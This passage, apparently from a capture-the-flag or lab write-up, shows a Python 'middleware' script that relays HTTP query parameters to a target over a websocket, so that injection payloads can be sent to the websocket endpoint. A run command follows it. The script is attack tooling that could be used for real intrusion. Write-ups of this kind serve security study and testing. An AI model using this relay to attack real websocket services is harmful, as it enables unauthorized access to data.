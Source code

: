 ```python

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

I'll run this script on my machine:
```bash
python3 exp.py
```

![image](https://user-images.githubusercontent.com/114166939/236666407-9587581b-f933-4f00-98fa-c6c324534340.png)
